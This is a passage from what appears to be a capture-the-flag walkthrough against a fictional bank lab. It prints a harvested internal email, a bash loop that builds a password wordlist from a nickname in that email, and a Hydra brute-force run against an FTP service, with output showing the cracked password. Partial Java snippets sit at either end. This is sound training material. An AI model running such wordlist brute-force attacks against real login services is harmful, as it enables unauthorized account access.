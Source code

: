 42      if(i%2==0) encNew[i]-=(i%3);
43      else encNew[i]+=(i%2);}}
44      return encNew;} I
{% endcodeblock %}

{% codeblock %}
sdadmin@slax:~$ cat mailserv_download/2010122015043.j15Htu1H341102 
To: sdadmin@nosecbank.com
CC: 
Subject: RE: My Son's Birthday
Date: Mon, 20 Dec 2010 15:04:32 +0500
Return-Path: <csadmin@nosecbank.com>
Delived-To: sdadmin:nosecbank.com@nosecbank.com
Received: (qmail 20281 invoked from network); 20 Dec 2010 10:04:32 -0000
X-Received: from network (192.168.1.123) by mailserv3-4.us6.service.com; 
20 Dec 2010 10:04:32 -0000
Received: from www.nosecbank.com (unknown [198.65.139.32]) by 
srv3.us6.service.com (Postfix) with ESMTP id D98214787FD for 
<csadmin@nosecbank.com; Mon, 20 Dec 2010 10:04:32 +0000 (GMT)
Message-Id: <2010122015043.j15Htu1H341102@www.nosecbank.com>
Mime-Version: 1.0
Content-Type: multipart/alternative; 
boundary="---=_NextPart_000_0000_05F11S20.FGHZWE49"
X-Mailer: K-Mail; Build 1.0.5510
Thread-Index: Aa5fqAwT8nsBe3T3T5q67a3Fd22XsZ==
Message: Hey there Paul!  I would gladly bring myself and my son over 
tomorrow after work!  I would only be hesitant to come over if you 
invited Fred over too... He just freaks me out sometimes.  It doesnt 
help that he locks himself up in his office and is anti-social during 
lunch hours... On top of that he calls himself the "databaser"!  I mean, 
who in thier right mind does that?  Either way, I will most likely be 
there tomorrow.  I look forward to it!   -Mark
{% endcodeblock %}

So the dbadmin's password could be related with the word databaser:
{% codeblock %}
root@kali32:~# for i in {1..9999}; do echo databaser$i; echo "$i"databaser; echo Databaser$i; echo "$i"Databaser; done > wl
root@kali32:~# hydra -l dbadmin 192.168.1.20 ftp -P wl 
Hydra v8.1 (c) 2014 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2015-05-08 06:21:55
[DATA] max 16 tasks per 1 server, overall 64 tasks, 39996 login tries (l:1/p:39996), ~39 tries per task
[DATA] attacking service ftp on port 21
[21][ftp] host: 192.168.1.20   login: dbadmin   password: databaser60
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2015-05-08 06:21:55
{% endcodeblock %}

We extract the last part of the email and put everything together:
{% codeblock lang:java %}
1       /*input is username of account*/
2       int[] processLoop(String input){
3         int strL=input.length;  
4         int lChar=(int)input.charAt(strL-1);
5         int fChar=(int)input.charAt(0); 
6         int[] encArr = int[strL+2];
